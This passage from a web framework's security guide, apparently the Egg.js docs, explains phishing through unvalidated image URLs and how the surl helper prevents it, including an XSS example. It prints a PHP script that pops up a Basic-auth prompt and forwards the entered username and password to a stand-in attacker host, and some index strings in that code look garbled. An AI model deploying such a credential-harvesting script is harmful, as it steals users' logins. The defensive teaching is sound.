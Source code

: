 Usually this kind of situation will appear in `<img src=$url />`, and not verify the ` $url ` whether within the domain name white list.

Attacker can construct the following code in his own server:

401.php, used to pop up 401 window, then record user information:

```php
  <?php
      header('WWW-Authenticate: Basic realm="No authorization"');
      header('HTTP/1.1 401 Unauthorized');
          $domain = "http://hacker.com/fishing/";
          if ($_SERVER[sectech:'PHP_AUTH_USER'] !== null){
                  header("Location: ".$domain."record.php?a=".$_SERVER[sectech:'PHP_AUTH_USER']."&b=".$_SERVER[sectech:'PHP_AUTH_PW']);
          }
  ?>
```

Then attacker generate an image url`<img src="http://xxx.xxx.xxx/fishing/401.php?a.jpg//" />`.

If user access the page, it will popup a window, and let user type in user's name and password, then account and password will be stored in the hacker's server.

### Prevention

Framework provides `.surl()` macro to do url filtering.It is Used to parse the url in the HTML tags in place (such as `<a href ="" /><img src=""/>`), other places are not allowed to use.

You can add `helper.surl($value)` in the template to output variable.

**note: in places where you need to parse the url, you must add double quotes outside of surl, or you will result in XSS vulnerabilities.**

Do not use `surl`

```html
<a href="$value" />
```

output:

```html
<a href="http://ww.safe.com<script>" />
```

Use `surl`

```html
<a href="helper.surl($value)" />
```

output:

```html
<a href="http://ww.safe.com&lt;script&gt;" />
```

### Iframe Phishing


[egg-view-nunjucks]: https://github.com/eggjs/egg-view-nunjucks
